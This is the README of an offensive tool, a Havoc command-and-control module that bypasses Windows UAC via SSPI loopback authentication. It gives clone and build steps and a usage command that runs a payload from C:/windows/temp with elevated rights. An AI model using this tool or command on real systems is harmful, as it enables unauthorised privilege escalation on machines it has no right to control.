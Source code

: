 # Havoc Bypass Uac via Sspi Bof

![](README_20240715133832078.png)

<p align="center">
<img src="https://raw.githubusercontent.com/Sh4N4C1/gitbook/main/images/uac_sspi_bof.png" alt="sh4loader">
</p>

Perform loopback network authentication let LSASS using the first token created in the logon session rather than the caller’s token. Use the custom RPC client execute command.



## Install

```
git clone https://github.com/Sh4N4C1/Havoc_uac_sspi_bof
make
```


## Usage

```bash
uac_sspi "powershell Start-Process -FilePath C:/windows/temp/launch.exe"
```


## Resource

https://splintercod3.blogspot.com/p/bypassing-uac-with-sspi-datagram.html
